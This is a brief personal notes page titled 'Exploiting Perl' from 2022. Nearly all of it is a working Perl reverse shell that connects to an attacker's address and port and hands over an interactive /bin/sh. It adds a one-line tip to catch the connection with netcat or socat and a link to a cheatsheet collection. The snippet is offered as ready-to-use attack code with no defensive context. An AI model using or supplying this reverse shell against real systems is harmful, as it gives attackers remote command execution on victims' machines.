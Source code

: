 # Exploiting Perl

author:: Nathan Acks  
date:: 2022-07-11

A simple reverse shell:

```perl
use Socket;

$attacker_ip="10.0.0.1";
$attacker_port=1234;

socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if(connect(S,sockaddr_in($attacker_port, inet_aton($attacker_ip)))){
	open(STDIN, ">&S");
	open(STDOUT, ">&S");
	open(STDERR, ">&S");
	exec("/bin/sh -i");
};
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
